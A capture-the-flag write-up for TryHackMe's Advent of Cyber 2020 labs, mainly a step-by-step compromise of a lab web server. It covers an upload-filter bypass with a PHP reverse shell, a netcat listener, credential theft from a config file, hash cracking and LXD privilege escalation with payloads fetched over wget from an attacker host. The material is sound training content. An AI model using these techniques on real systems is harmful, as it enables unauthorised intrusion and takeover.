

The database folder contains an empty txt file.

The vStockings folder seems more interesting as it contains some encrypted files.


It seems like the encrypted files have a `.grinch` extension.

Lastly, there is a confidential folder which is hidden. Inside, there is the `master-password.txt.grinch` file. However, it is not encrypted so we can see that his password is `m33pa55w0rdIZseecure!`.

### Looking through the scheduled tasks

We can also take a look through the scheduled tasks. Looking through them, the `opidsfsdf` task looks quite suspicious. It seems to be running whenever the Administrator user logs in.


Let's collect more information!

It seems like it starts to run an executable file at `C:\Users\Administrator\Desktop\opidsfsdf.exe`



### Looking for a VSS scheduled task

Looking through the scheduled tasks, we also find `ShadowCopyVolume{7a9eea15-0000-0000-0000-010000000000}` which seems to be the part of the Volume Shadow Copu Service.

## Day 24: The Trial Before Christmas

*Category: Special*  
*Tags: Web, Linux*  
*Special Contributer: DarkStar7471*

> Ready for one last challenge to make sure you've earned your presents this year? Use the skills gained throughout Advent of Cyber to prove your mettle and conquer day twenty four!

IP: `10.10.126.85`

### Basic Enumeration

As always, we start off with an Nmap scan.

```
# Nmap 7.80 scan initiated Thu Dec 24 15:23:48 2020 as: nmap -sC -sV -vvv -oN nmap.log 10.10.126.85
Nmap scan report for 10.10.126.85
Host is up, received syn-ack (0.16s latency).
Scanned at 2020-12-24 15:23:48 EST for 37s
Not shown: 998 closed ports
Reason: 998 conn-refused
PORT      STATE SERVICE REASON  VERSION
80/tcp    open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.29 (Ubuntu)
65000/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Light Cycle

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 24 15:24:25 2020 -- 1 IP address (1 host up) scanned in 36.97 seconds
```

### What is the title of the webpages

A copy of the `TryHackMe` website is running on port 80 and `Light Cycle` is running on port 65000.

### Gobuster

I then ran gobuster on both ports.

```
bluemoon@dragonfly:~/ctf/thm/thm-advent/day24-the-trial-before-christmas$ gobuster -u 10.10.126.85 -w ~/ctf/common.txt -x php

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.126.85/
[+] Threads      : 10
[+] Wordlist     : /home/bluemoon/ctf/common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : php
[+] Timeout      : 10s
=====================================================
2020/12/24 16:05:52 Starting gobuster
=====================================================
/.hta (Status: 403)
/.hta.php (Status: 403)
/.htaccess (Status: 403)
/.htaccess.php (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/3 (Status: 301)
/codes (Status: 301)
/index.html (Status: 200)
/server-status (Status: 403)
=====================================================
2020/12/24 16:07:35 Finished
=====================================================
```

```
bluemoon@dragonfly:~/ctf/thm/thm-advent/day24-the-trial-before-christmas$ gobuster -u http://10.10.126.85:65000 -w ~/ctf/common.txt -x php

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.126.85:65000/
[+] Threads      : 10
[+] Wordlist     : /home/bluemoon/ctf/common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : php
[+] Timeout      : 10s
=====================================================
2020/12/24 16:06:14 Starting gobuster
=====================================================
/.hta (Status: 403)
/.hta.php (Status: 403)
/.htaccess (Status: 403)
/.htaccess.php (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/api (Status: 301)
/assets (Status: 301)
/grid (Status: 301)
/index.php (Status: 200)
/index.php (Status: 200)
/server-status (Status: 403)
/uploads.php (Status: 200)
=====================================================
2020/12/24 16:07:53 Finished
=====================================================
```

Looking at the `Light Cycle` website, `uploads.php` looks like where we can upload files and `/grid` looks ike a place where we can access the files we have uploaded.

### Evading the upload filter

At `http://10.10.126.85:65000/uploads.php`, we see an upload form.


However, this is protected by both a server and client side filter. We can use BurpSuite to intercept the web traffic and then drop the request for `filter.js`. Next, we can mess with the file extension of a php reverse shell to get through the server side filter. We can rename `php-reverse-shell.php` as `php-reverse-shell.jpg.php`. We also see that any file we upload ends up in the `/grid/` directory.



Next, we set up a netcat listener and wait for the connection to come through once we click on it!

```
bluemoon@dragonfly:~/ctf/thm/thm-advent/day24-the-trial-before-christmas$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.126.85 60820
Linux light-cycle 4.15.0-128-generic #131-Ubuntu SMP Wed Dec 9 06:57:35 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 21:31:02 up 32 min,  0 users,  load average: 0.00, 0.00, 0.12
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

JACKPOT!

### Getting web flag: `web.txt`

Since we are currently `www-data`, we will probably find the `web.txt` file in our home directory: `/var/www`.

```
$ cat /var/www/web.txt
THM{ENTER_THE_GRID}
```

Web Flag: `THM{ENTER_THE_GRID}`

### Spawning a stable shell using Python

We can use python to spawn a stable shell

```
$ python3 -c "import pty; pty.spawn('/bin/bash')"
www-data@light-cycle:/var/www$ 
```

### Poking through the filesystem

Although `www-data` is very unpriviledged, we can still look through the `/var/www` folder. One particularly interesting file is `/var/www/TheGrid/includes/dbauth.php` which contains the credentials to a MySQL database: `tron:IFightForTheUsers`.

```php
<?php
        $dbaddr = "localhost";
        $dbuser = "tron";
        $dbpass = "IFightForTheUsers";
        $database = "tron";

        $dbh = new mysqli($dbaddr, $dbuser, $dbpass, $database);
        if($dbh->connect_error){
                die($dbh->connect_error);
        }
?>
```

### Accessing the database

Now we can poke through the MySQL database. Run `mysql -u tron -p` in the terminal to get access to the MySQL command line interface.

```
www-data@light-cycle:/var/www/TheGrid/includes$ mysql -u tron -p
mysql -u tron -p
Enter password: IFightForTheUsers

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 6
Server version: 5.7.32-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

It looks like there are only 1 interesting database.

```
mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| tron               |
+--------------------+
2 rows in set (0.01 sec)
```

Let's take a look inside.

```
mysql> use tron;
use tron;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+----------------+
| Tables_in_tron |
+----------------+
| users          |
+----------------+
1 row in set (0.00 sec)

mysql> SELECT * FROM users;
SELECT * FROM users;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | flynn    | edc621628f6d19a13a00fd683f5e3ff7 |
+----+----------+----------------------------------+
1 row in set (0.00 sec)
```

### Cracking the password hash

It seems like this developer did one thing right. He hashed the password. However, the user used a very common password so we can easily crack it using `https://crackstation.net/` or a similar site. It seems like his flynn's password is `@computer@`.

### Becoming Flynn

Now that we know have some more credentials, we can log in using `flynn:@computer@`

```
www-data@light-cycle:/$ su flynn
su flynn
Password: @computer@

flynn@light-cycle:/$
```

### Getting user flag: `user.txt`

The user flag is stored in the user's home directory. We now have the permissions to read it.

```
flynn@light-cycle:~$ cat /home/flynn/user.txt
cat /home/flynn/user.txt
THM{IDENTITY_DISC_RECOGNISED}
```

User Flag: `THM{IDENTITY_DISC_RECOGNISED}`

### Privilege Escalation

Let's run the `id` command to see what groups flynn is in.

```
flynn@light-cycle:~$ id
id
uid=1000(flynn) gid=1000(flynn) groups=1000(flynn),109(lxd)
```

Ok, so looks like we will be doing a LXD Privilege Escalation. So let's `git clone` the repository.

```
git clone https://github.com/saghul/lxd-alpine-builder.git
```

Now we can build alpine.

```
cd lxd-alpine-builder/
sudo ./build-alpine
```

Now, there should be a gzip compressed data folder in the directory. We need to get this onto the victim box and so we can use `http-server`.

So on my attacker machine I run the following:

```
bluemoon@dragonfly:~/ctf/thm/thm-advent/day24-the-trial-before-christmas/lxd-alpine-builder$ http-server
Starting up http-server, serving ./
Available on:
  http://127.0.0.1:8081
  http://172.16.57.163:8081
  http://10.6.23.34:8081
Hit CTRL-C to stop the server
```

Then on the victim machine, I can `wget` it.

```
flynn@light-cycle:~$ wget http://10.6.23.34:8081/alpine-v3.12-x86_64-20201225_1041.tar.gz
<23.34:8081/alpine-v3.12-x86_64-20201225_1041.tar.gz
--2020-12-25 15:48:13--  http://10.6.23.34:8081/alpine-v3.12-x86_64-20201225_1041.tar.gz
Connecting to 10.6.23.34:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3203370 (3.1M) [application/gzip]
Saving to: ‘alpine-v3.12-x86_64-20201225_1041.tar.gz’

alpine-v3.12-x86_64 100%[===================>]   3.05M  1.10MB/s    in 2.8s    

2020-12-25 15:48:16 (1.10 MB/s) - ‘alpine-v3.12-x86_64-20201225_1041.tar.gz’ saved [3203370/3203370]
```

Next, we can download the shell script from `https://www.exploit-db.com/exploits/46978` and also send that file over to the victim using `http-server`.

```
bluemoon@dragonfly:~/ctf/thm/thm-advent/day24-the-trial-before-christmas$ http-server
Starting up http-server, serving ./
Available on:
  http://127.0.0.1:8081
  http://172.16.57.163:8081
  http://10.6.23.34:8081
Hit CTRL-C to stop the server
```
```
flynn@light-cycle:~$ wget http://10.6.23.34:8081/46978.sh
wget http://10.6.23.34:8081/46978.sh
--2020-12-25 15:57:35--  http://10.6.23.34:8081/46978.sh
Connecting to 10.6.23.34:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1500 (1.5K) [application/x-sh]
Saving to: ‘46978.sh’

46978.sh            100%[===================>]   1.46K  --.-KB/s    in 0s      

2020-12-25 15:57:35 (192 MB/s) - ‘46978.sh’ saved [1500/1500]
```

Now, we can see both files are on the victim machine

```
-rw-rw-r-- 1 flynn flynn    1500 Dec 25 15:54 46978.sh
-rw-rw-r-- 1 flynn flynn 3203370 Dec 25 15:41 alpine-v3.12-x86_64-20201225_1041.tar.gz
```

Next, we can mark `46978.sh` as executable and run it.

```
flynn@light-cycle:~$ chmod +x 46978.sh
flynn@light-cycle:~$ ./46978.sh -f alpine-v3.12-x86_64-20201225_1041.tar.gz
```

Once we are in the lxc container, we can move to the root directory of the host machine which is mounted at `/mnt/root`.

```
~ # cd /mnt/root
cd /mnt/root
/mnt/root # ls -l    
ls -l
total 239788
drwxr-xr-x    2 root     root          4096 Dec 18 14:17 bin
drwxr-xr-x    3 root     root          4096 Dec 18 14:22 boot
drwxr-xr-x   17 root     root          3680 Dec 25 15:24 dev
drwxr-xr-x   94 root     root          4096 Dec 20 04:51 etc
drwxr-xr-x    3 root     root          4096 Dec 18 14:08 home
lrwxrwxrwx    1 root     root            34 Dec 18 14:18 initrd.img -> boot/initrd.img-4.15.0-128-generic
lrwxrwxrwx    1 root     root            33 Dec 18 14:04 initrd.img.old -> boot/initrd.img-4.15.0-20-generic
drwxr-xr-x   22 root     root          4096 Dec 18 14:06 lib
drwxr-xr-x    2 root     root          4096 Dec 18 14:15 lib64
drwx------    2 root     root         16384 Dec 18 14:04 lost+found
drwxr-xr-x    3 root     root          4096 Dec 18 14:04 media
drwxr-xr-x    2 root     root          4096 Apr 26  2018 mnt
drwxr-xr-x    2 root     root          4096 Apr 26  2018 opt
dr-xr-xr-x  151 root     root             0 Dec 25 15:24 proc
drwx------    4 root     root          4096 Dec 20 03:51 root
drwxr-xr-x   26 root     root           860 Dec 25 16:05 run
drwxr-xr-x    2 root     root         12288 Dec 18 14:17 sbin
drwxr-xr-x    2 root     root          4096 Dec 18 14:09 snap
drwxr-xr-x    2 root     root          4096 Apr 26  2018 srv
-rw-------    1 root     root     245452800 Dec 18 14:04 swapfile
dr-xr-xr-x   13 root     root             0 Dec 25 15:24 sys
drwxrwxrwt   10 root     root          4096 Dec 25 16:05 tmp
drwxr-xr-x   10 root     root          4096 Dec 18 14:04 usr
drwxr-xr-x   14 root     root          4096 Dec 18 14:07 var
lrwxrwxrwx    1 root     root            31 Dec 18 14:18 vmlinuz -> boot/vmlinuz-4.15.0-128-generic
lrwxrwxrwx    1 root     root            30 Dec 18 14:04 vmlinuz.old -> boot/vmlinuz-4.15.0-20-generic
```

### Getting root flag: `root.txt`

Now, we can change into the root user's home directory and cat out the flag.

```
/mnt/root # cd root  
/mnt/root/root # ls -alF
total 32
drwx------    4 root     root          4096 Dec 20 03:51 ./
drwxr-xr-x   23 root     root          4096 Dec 18 14:18 ../
lrwxrwxrwx    1 root     root             9 Dec 18 17:43 .bash_history -> /dev/null
-rw-r--r--    1 root     root          3106 Apr  9  2018 .bashrc
drwxr-x---    3 root     root          4096 Dec 20 03:51 .config/
lrwxrwxrwx    1 root     root             9 Dec 19 15:15 .mysql-history -> /dev/null
-rw-------    1 root     root           264 Dec 19 15:19 .mysql_history
-rw-r--r--    1 root     root           148 Aug 17  2015 .profile
drwx------    2 root     root          4096 Dec 18 17:57 .ssh/
-r--------    1 root     root           600 Dec 19 20:18 root.txt
/mnt/root/root # cat root.txt
THM{FLYNN_LIVES}


"As Elf McEager claimed the root flag a click could be heard as a small chamber on the anterior of the NUC popped open. Inside, McEager saw a small object, roughly the size of an SD card. As a moment, he realized that was exactly what it was. Perplexed, McEager shuffled around his desk to pick up the card and slot it into his computer. Immediately this prompted a window to open with the word 'HOLO' embossed in the center of what appeared to be a network of computers. Beneath this McEager read the following: Thank you for playing! Merry Christmas and happy holidays to all!"
```

Root flag: `THM{FLYNN_LIVES}`